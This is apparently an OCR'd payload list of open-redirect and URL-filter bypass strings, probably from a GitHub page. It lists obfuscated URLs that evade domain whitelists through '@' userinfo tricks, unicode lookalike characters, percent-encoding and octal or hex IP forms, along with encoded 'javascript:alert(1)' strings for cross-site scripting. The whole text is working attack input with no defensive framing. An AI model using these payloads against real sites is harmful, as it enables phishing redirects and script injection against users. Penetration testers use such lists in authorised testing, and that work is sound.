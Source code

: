 ```html
http:www.whitelisteddomain.tld@00330.3856078
http:3H6k7lIAiqjfNeN@00330.3856078
http:XY>.7d8T\205pZM@00330.3856078
http:00330.0x3a.54990
http:www.whitelisteddomain.tld@00330.0x3a.54990
http:3H6k7lIAiqjfNeN@00330.0x3a.54990
http:XY>.7d8T\205pZM@00330.0x3a.54990
〱google.com
〵google.com
ゝgoogle.com
ーgoogle.com
ｰgoogle.com
/〱google.com
/〵google.com
/ゝgoogle.com
/ーgoogle.com
/ｰgoogle.com
%68%74%74%70%3a%2f%2f%67%6f%6f%67%6c%65%2e%63%6f%6d
http://%67%6f%6f%67%6c%65%2e%63%6f%6d
<>javascript:alert(1);
<>//google.com
//google.com\@www.whitelisteddomain.tld
https://:@google.com\@www.whitelisteddomain.tld
\x6A\x61\x76\x61\x73\x63\x72\x69\x70\x74\x3aalert(1)
\u006A\u0061\u0076\u0061\u0073\u0063\u0072\u0069\u0070\u0074\u003aalert(1)
ja\nva\tscript\r:alert(1)
\j\av\a\s\cr\i\pt\:\a\l\ert\(1\)
\152\141\166\141\163\143\162\151\160\164\072alert(1)
http://google.com:80#@www.whitelisteddomain.tld/
http://google.com:80?@www.whitelisteddomain.tld/
http://google.com\www.whitelisteddomain.tld
http://google.com&www.whitelisteddomain.tld
http:///////////google.com
\\google.com
http://www.whitelisteddomain.tld.google.com
```

## Open Redirects
```html
/%09/example.com
/%2f%2fexample.com
/%2f%5c%2f%67%6f%6f%67%6c%65%2e%63%6f%6d/
/%5cexample.com
/%68%74%74%70%3a%2f%2f%67%6f%6f%67%6c%65%2e%63%6f%6d
/.example.com
//%09/example.com
//%5cexample.com
///%09/example.com
///%5cexample.com
////%09/example.com
////%5cexample.com
/////example.com
/////example.com/
////\;@example.com
////example.com/
////example.com/%2e%2e
////example.com/%2e%2e%2f
////example.com/%2f%2e%2e
////example.com/%2f..
////example.com//
///\;@example.com
///example.com
```